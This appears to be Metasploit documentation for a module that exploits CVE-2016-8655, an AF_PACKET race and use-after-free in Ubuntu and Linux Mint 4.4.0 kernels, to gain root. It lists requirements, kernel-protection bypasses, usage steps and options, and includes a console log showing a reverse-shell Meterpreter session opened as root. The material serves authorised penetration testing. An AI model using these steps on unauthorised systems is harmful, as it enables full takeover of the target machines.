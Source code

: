 ## Description

  This module exploits a race condition and use-after-free in the
  `packet_set_ring` function in `net/packet/af_packet.c` (`AF_PACKET`) in
  the Linux kernel to execute code as `root` (CVE-2016-8655).

  The bug was initially introduced in 2011 and patched in 2016 in version
  4.4.0-53.74, potentially affecting a large number of kernels; however
  this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels
  4.4.0 < 4.4.0-53, including Linux distros based on Ubuntu, such as
  Linux Mint.

  The target system must have unprivileged user namespaces enabled and
  two or more CPU cores.

  Bypasses for SMEP, SMAP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on:

  * Linux Mint 17.3 (x86_64)
  * Linux Mint 18 (x86_64)
  * Ubuntu 16.04.2 (x86_64)

  With kernel versions:

  * 4.4.0-45-generic
  * 4.4.0-51-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/af_packet_chocobo_root_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **TIMEOUT**

  Race timeout (seconds). (default: `600`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf5 > use exploit/linux/local/af_packet_chocobo_root_priv_esc 
  msf5 exploit(linux/local/af_packet_chocobo_root_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/af_packet_chocobo_root_priv_esc) > run
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.iDLrwN3S4.c' (24885 bytes) ...
  [*] Writing '/tmp/.rMIvkKT' (207 bytes) ...
  [*] Launching exploit (Timeout: 600)...
  [*] Sending stage (853256 bytes) to 172.16.191.209
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.209:38530) at 2018-05-07 03:07:21 -0400
  [+] Deleted /tmp/.iDLrwN3S4.c
  [+] Deleted /tmp/.iDLrwN3S4
  [+] Deleted /tmp/.rMIvkKT

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.209
  OS           : Ubuntu 16.04 (Linux 4.4.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

